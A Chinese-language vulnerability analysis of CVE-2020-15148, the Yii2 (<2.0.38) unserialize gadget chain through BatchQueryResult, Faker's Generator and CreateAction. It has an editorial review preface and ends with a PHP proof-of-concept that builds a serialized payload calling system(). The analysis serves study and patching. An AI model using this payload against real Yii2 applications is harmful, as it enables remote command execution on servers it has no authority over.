








## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;2.0.38、实验2.0.37，明确需unserialize可控输入；Faker需存在

代码与实验材料：完整源码/生成器，使用CreateAction.checkAccess，入口Action仅图；未运行

来源证据范围：不可变官方commit9abccb96...及先知8307

- **适用与权限边界（1）**：Faker依赖版本/部署前提缺失；依据：生产composer --no-dev可能无Faker，需锁依赖和autoload。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：演示材料需补文本；依据：自建TestController只在图片，PoC末尾有?&gt;但开头缺&lt;?php，复制为独立文件不完整。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（3）**：影响范围与漏洞性质说明较好应保留；依据：正文明确只是执行链需额外unserialize，合并摘要不得删去此限制。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2020-15148）Yii2框架反序列化漏洞
======================================

一、漏洞简介
------------

如果在使用yii框架，并且在用户可以控制的输入处调用了unserialize()并允许特殊字符的情况下，会受到反序列化远程命令命令执行漏洞攻击。

该漏洞只是php
反序列化的执行链，必须要配合`unserialize`函数才可以达到任意代码执行的危害。

二、漏洞影响
------------

Yii2 \<2.0.38

三、复现过程
------------

### 环境搭建

由于我本地的composer不知道为啥特别慢（换源也不管用），所以这里直接去`Yii2`的官方仓库里面拉。

Yii2框架反序列化漏洞/media/rId25.jpg)

选择一个漏洞影响的版本`yii-basic-app-2.0.37.tgz`解压到Web目录，然后修改一下配置文件。`/config/web.php`:

Yii2框架反序列化漏洞/media/rId26.jpg)

给`cookieValidationKey`字段设置一个值（如果是composer拉的可以跳过这一步）接着添加一个存在漏洞的`Action``/controllers/TestController.php`:

Yii2框架反序列化漏洞/media/rId27.jpg)

测试访问：

Yii2框架反序列化漏洞/media/rId28.jpg)

### 漏洞分析

由于没有漏洞细节，我们可以去`Yii2`的官方仓库看看提交记录。[yiisoft/yii2](https://github.com/yiisoft/yii2/commit/9abccb96d7c5ddb569f92d1a748f50ee9b3e2b99?branch=9abccb96d7c5ddb569f92d1a748f50ee9b3e2b99&diff=split)

Yii2框架反序列化漏洞/media/rId31.jpg)

在最新版中官方给`yii\db\BatchQueryResult`类加了一个`__wakeup()`函数，直接不允许反序列化这个类了。

所以这里猜测该类为反序列化起点。`/vendor/yiisoft/yii2/db/BatchQueryResult.php`:

    <?php
    namespace yii\db;

    class BatchQueryResult{
        /** 
        ......
        */
        public function __destruct()
        {
            $this->reset();
        }

        public function reset()
        {
            if ($this->_dataReader !== null) {
                $this->_dataReader->close();
            }
            $this->_dataReader = null;
            $this->_batch = null;
            $this->_value = null;
            $this->_key = null;
        }
        /** 
        ......
        */
    }
    ?>

可以看到`__destruct()`调用了`reset()`方法`reset()`方法中，`$this->_dataReader`是可控的，所以此处可以当做跳板，去执行其他类中的`__call()`方法。

全局搜索`function __call(`

Yii2框架反序列化漏洞/media/rId32.jpg)

其中找到一个`Faker\Generator`类`/vendor/fzaninotto/faker/src/Faker/Generator.php`:

    <?php
    namespace Faker;

    class Generator{
        /** 
        ......
        */
        public function format($formatter, $arguments = array())
        {
            return call_user_func_array($this->getFormatter($formatter), $arguments);
        }

        public function getFormatter($formatter)
        {
            if (isset($this->formatters[$formatter])) {
                return $this->formatters[$formatter];
            }
            foreach ($this->providers as $provider) {
                if (method_exists($provider, $formatter)) {
                    $this->formatters[$formatter] = array($provider, $formatter);

                    return $this->formatters[$formatter];
                }
            }
            throw new \InvalidArgumentException(sprintf('Unknown formatter "%s"', $formatter));
        }

        public function __call($method, $attributes)
        {
            return $this->format($method, $attributes);
        }
        /** 
        ......
        */
    }
    ?>

可以看到，此处的`__call()`方法调用了`format()`，且`format()`从`$this->formatter`里面取出对应的值后，带入了`call_user_func_array()`函数中。由于`$this->formatter`是我们可控的，所以我们这里可以调用任意类中的任意方法了。但是`$arguments`是从`yii\db\BatchQueryResult::reset()`里传过来的，我们不可控，所以我们只能不带参数地去调用别的类中的方法。

到了这一步只需要找到一个执行类即可。我们可以全局搜索`call_user_func\(\$this->([a-zA-Z0-9]+), \$this->([a-zA-Z0-9]+)`，得到使用了`call_user_func`函数，且参数为类中成员变量的所有方法。

Yii2框架反序列化漏洞/media/rId33.jpg)

查看后发现`yii\rest\CreateAction::run()`和`yii\rest\IndexAction::run()`这两个方法比较合适。这里拿`yii\rest\CreateAction::run()`举例`/vendor/yiisoft/yii2/rest/CreateAction.php`:

    <?php
    namespace yii\rest;

    class CreateAction{
        /** 
        ......
        */
        public function run()
        {
            if ($this->checkAccess) {
                call_user_func($this->checkAccess, $this->id);
            }

            /* @var $model \yii\db\ActiveRecord */
            $model = new $this->modelClass([
                'scenario' => $this->scenario,
            ]);

            $model->load(Yii::$app->getRequest()->getBodyParams(), '');
            if ($model->save()) {
                $response = Yii::$app->getResponse();
                $response->setStatusCode(201);
                $id = implode(',', array_values($model->getPrimaryKey(true)));
                $response->getHeaders()->set('Location', Url::toRoute([$this->viewAction, 'id' => $id], true));
            } elseif (!$model->hasErrors()) {
                throw new ServerErrorHttpException('Failed to create the object for unknown reason.');
            }

            return $model;
        }
        /** 
        ......
        */
    }
    ?>

`$this->checkAccess`和`$this->id`都是我们可控的。所以整个利用链就出来了。

    yii\db\BatchQueryResult::__destruct()
    ->
    Faker\Generator::__call()
    ->
    yii\rest\CreateAction::run()

还是挺简单的一个漏洞

### poc

    namespace yii\rest{
        class CreateAction{
            public $checkAccess;
            public $id;

            public function __construct(){
                $this->checkAccess = 'system';
                $this->id = 'ls -al';
            }
        }
    }

    namespace Faker{
        use yii\rest\CreateAction;

        class Generator{
            protected $formatters;

            public function __construct(){
                $this->formatters['close'] = [new CreateAction, 'run'];
            }
        }
    }

    namespace yii\db{
        use Faker\Generator;

        class BatchQueryResult{
            private $_dataReader;

            public function __construct(){
                $this->_dataReader = new Generator;
            }
        }
    }
    namespace{
        echo base64_encode(serialize(new yii\db\BatchQueryResult));
    }
    ?>

Yii2框架反序列化漏洞/media/rId35.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8307
